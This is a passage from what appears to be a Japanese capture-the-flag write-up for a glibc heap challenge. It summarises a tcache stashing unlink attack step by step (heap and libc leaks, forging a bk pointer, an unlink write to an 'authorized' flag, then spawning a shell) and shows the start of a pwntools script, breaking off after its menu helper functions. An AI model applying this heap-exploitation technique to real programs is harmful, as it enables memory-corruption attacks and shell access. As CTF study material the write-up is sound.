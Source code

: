 ### まとめ

どのidをどうやって入手するのかがやや複雑

1. 名前を入力する(tcache stashing unlink attackの際に発生するunlinkで上手くauthorizedに値が入るようにbkを偽装したチャンクを作っておく)
2. tcacheを埋めてfastbinに2つ以上チャンク送り、nextを読んでheap leakする
3. fastbinに入らないサイズでtcacheを埋めてからunsorted binに7つチャンクを送り、そこが取られないようなmallocを発動させてsmallbinに送る
4. smallbinの先頭のチャンクを利用してbinのアドレスをリークし、それをIDとしている末端のチャンクのbkを`change_id`で書き換える
5. tcacheを空にし、更にもう一度mallocを発生させることで後続のチャンク群がsmallbinからtcacheに移される
6. この際のunlinkでauthorizedに数字が入ってくれるのでシェル起動コマンドを叩けばシェルが起動する

## Code

```python
from pwn import p64, u64, process, ELF, remote


def select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(str(sel))


def alloc(s, id, size):
    select(s, 0)
    s.recvuntil(b"id > ")
    s.sendline(str(id))
    s.recvuntil(b"size > ")
    s.sendline(str(size))


def extend(s, id, size):
    select(s, 1)
    s.recvuntil(b"id > ")
    s.sendline(str(id))
    s.recvuntil(b"size > ")
    s.sendline(str(size))


def change_id(s, id, new_id):
    select(s, 2)
    s.recvuntil(b"id > ")
    s.sendline(str(id))
    s.recvuntil(b"new id > ")
    s.sendline(str(new_id))


def show(s, id):
    select(s, 3)
    s.recvuntil(b"id > ")
    s.sendline(str(id))
    s.recvuntil(b"id: ")
    res = tuple(map(lambda x: int(x, 16), s.recvline().rstrip().split(b" size: ")))
    ret = {
        "id": res[0],
        "size": res[1]
    }

    return ret


def deallocate(s, id):
    select(s, 4)
    s.recvuntil(b"id > ")
    s.sendline(str(id))
```